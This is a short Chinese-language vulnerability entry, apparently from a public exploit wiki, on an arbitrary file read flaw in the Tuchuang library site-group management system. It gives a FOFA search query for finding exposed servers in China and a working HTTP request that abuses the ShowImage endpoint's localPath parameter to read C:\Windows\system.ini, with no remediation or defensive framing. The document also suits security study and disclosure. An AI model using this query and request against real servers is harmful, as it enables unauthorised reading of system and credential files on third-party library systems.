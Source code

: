 # 图创软件 图书馆站群管理系统 任意文件读取漏洞

## 漏洞描述

图创软件 图书馆站群管理系统 存在任意文件读取漏洞，攻击者通过漏洞可以读取任意文件

## 漏洞影响

> [!NOTE]
>
> 图创软件 图书馆站群管理系统

## FOFA

> [!NOTE]
>
> "广州图创" && country="CN" && body="/interlib/common/"

## 漏洞复现

登录页面如下

![image-20210531232247675](http://wikioss.peiqi.tech/vuln/image-20210531232247675.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)

漏洞请求包为

```
GET /interlib/report/ShowImage?localPath=C:\Windows\system.ini HTTP/1.1
Host: 
Content-Length: 4
```

![image-20210531232426203](http://wikioss.peiqi.tech/vuln/image-20210531232426203.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)

成功读取 system.ini 文件